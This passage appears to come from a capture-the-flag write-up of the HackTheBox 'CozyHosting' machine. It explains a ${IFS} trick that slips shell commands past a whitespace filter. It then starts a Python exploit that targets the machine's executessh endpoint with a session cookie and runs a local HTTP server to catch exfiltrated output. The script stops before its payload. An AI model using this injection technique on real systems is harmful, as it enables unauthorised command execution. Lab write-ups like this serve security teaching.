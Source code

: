 <figure><img src="../../.gitbook/assets/Pasted image 20230912202408.png" alt=""><figcaption></figcaption></figure>

But this can be bypassed by using `${IFS}` shell variable as this stand for separator so command `$(ls${IFS}/)` results in valid command.

### Exploit

```python
import concurrent.futures
from threading import Thread
import requests
import cmd
from http.server import BaseHTTPRequestHandler, HTTPServer, ThreadingHTTPServer
import socketserver
import base64

IP='0.0.0.0'
PORT=8000
URL='http://cozyhosting.htb/executessh'
PROXY = {
        'http':'http://127.0.0.1:8080'
        }
COOKIES={'JSESSIONID':'B4CB94691CEF79C8F83C1C5505C0B230'}

def hatfuServer():
    webServer =  HTTPServer((IP, PORT), CatchServer)
    #webServer.serve_forever()
    def handle_request(webServer):
        with webServer:
            webServer.serve_forever()
    thread = Thread(target=handle_request, args=(webServer,))
    thread.daemon=True
    thread.start()
    return webServer


class CatchServer(BaseHTTPRequestHandler):
    def log_request(self, code):
        pass

    def do_GET(self):
        self.send_response(200, "A Chuj Ci w Dupe")
        self.send_header('Connection', 'Close')
        self.end_headers()
```